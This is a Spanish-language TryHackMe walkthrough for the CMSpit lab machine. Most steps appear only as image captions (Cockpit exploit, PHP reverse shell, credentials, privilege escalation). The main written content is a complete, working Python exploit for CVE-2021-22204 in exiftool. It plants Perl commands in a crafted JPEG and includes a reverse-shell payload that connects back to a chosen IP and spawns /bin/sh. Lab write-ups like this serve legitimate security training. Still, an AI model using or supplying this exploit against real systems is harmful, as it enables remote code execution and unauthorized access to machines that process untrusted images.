# CMSpit — TryHackMe Walkthrough & Writeup


-informational?style=for-the-badge)

Guía completa y walkthrough paso a paso para resolver la máquina **CMSpit** en la plataforma **TryHackMe**, incluyendo reconocimiento, explotación de vulnerabilidades y escalada de privilegios para obtener todas las flags.

---

cockpit



version



link 



exploit cockpit



users and skidy information



webflag



initial access revshell php





password de stux and flag db



user.txt



search escalate privilege 



search exploit exiftool



[exploit-CVE-2021-22204.py](http://exploit-cve-2021-22204.py/)

```powershell
#!/usr/bin/env python3


import base64

import os

import subprocess

import sys


class color:

    red = '\033[91m'

    gold = '\033[93m'

    blue = '\033[36m'

    green = '\033[92m'

    no = '\033[0m'


def help():

    print(r"""UNICORD Exploit for CVE-2021-22204

Usage:

  python3 exploit-CVE-2021-22204.py -c <command>

  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port>

  python3 exploit-CVE-2021-22204.py -c <command> [-i <image.jpg>]

  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> [-i <image.jpg>]

  python3 exploit-CVE-2021-22204.py -h

Options:

  -c    Custom command mode. Provide command to execute.

  -s    Reverse shell mode. Provide local IP and port.

  -i    Path to custom JPEG image. (Optional)

  -h    Show this help menu.

""")


def exploit(command):

    # Create perl payload

    payload = '(metadata "\\c${' + command + '};")'

    print(color.red + "RUNNING: " + color.blue + "UNICORD Exploit for CVE-2021-22204" + color.no)

    print(color.red + "PAYLOAD: " + color.gold + payload + color.no)

    # Write payload to file

    payloadFile = open('payload', 'w')

    payloadFile.write(payload)

    payloadFile.close()

    # Bzz compress file

    subprocess.run(['bzz', 'payload', 'payload.bzz'])

    # Run djvumake

    subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])

    if '-i' in sys.argv:

        imagePath = sys.argv[sys.argv.index('-i') + 1]

        subprocess.run(['cp', imagePath, './image.jpg', '-n'])

    else:

        # Smallest possible JPEG

        image = b"/9j/4AAQSkZJRgABAQEASABIAAD/2wBDAAMCAgICAgMCAgIDAwMDBAYEBAQEBAgGBgUGCQgKCgkICQkKDA8MCgsOCwkJDRENDg8QEBEQCgwSExIQEw8QEBD/yQALCAABAAEBAREA/8wABgAQEAX/2gAIAQEAAD8A0s8g/9k="

        # Write smallest possible JPEG image to file

        with open("image.jpg", "wb") as img:

            img.write(base64.decodebytes(image))

    # Write exiftool config to file

    config = (r"""

    %Image::ExifTool::UserDefined = (

    'Image::ExifTool::Exif::Main' => {

        0xc51b => {

            Name => 'HasselbladExif',

            Writable => 'string',

            WriteGroup => 'IFD0',

        },

    },

    );

    1; #end

    """)

    configFile = open('exiftool.config', 'w')

    configFile.write(config)

    configFile.close()

    # Exiftool config for output image

    subprocess.run(['exiftool', '-config', 'exiftool.config', '-HasselbladExif<=exploit.djvu', 'image.jpg', '-overwrite_original_in_place', '-q'])

    # Delete leftover files

    os.remove("payload")

    os.remove("payload.bzz")

    os.remove("exploit.djvu")

    os.remove("exiftool.config")

    # Print results

    print(color.red + "RUNTIME: " + color.green + "DONE - Exploit image written to 'image.jpg'" + color.no + "\n")

    exit()

if __name__ == "__main__":

    args = ['-h', '-c', '-s', '-i']

    if args[0] in sys.argv:

        help()

    elif args[1] in sys.argv and not args[2] in sys.argv:

        exec = sys.argv[sys.argv.index(args[1]) + 1]

        command = "system('{}')".format(exec)

        exploit(command)

    elif args[2] in sys.argv and not args[1] in sys.argv:

        localIP = sys.argv[sys.argv.index(args[2]) + 1]

        localPort = sys.argv[sys.argv.index(args[2]) + 2]

        command = "use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({},inet_aton('{}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};".format(localPort, localIP)

        exploit(command)

    else:

        help()

```

Root.txt

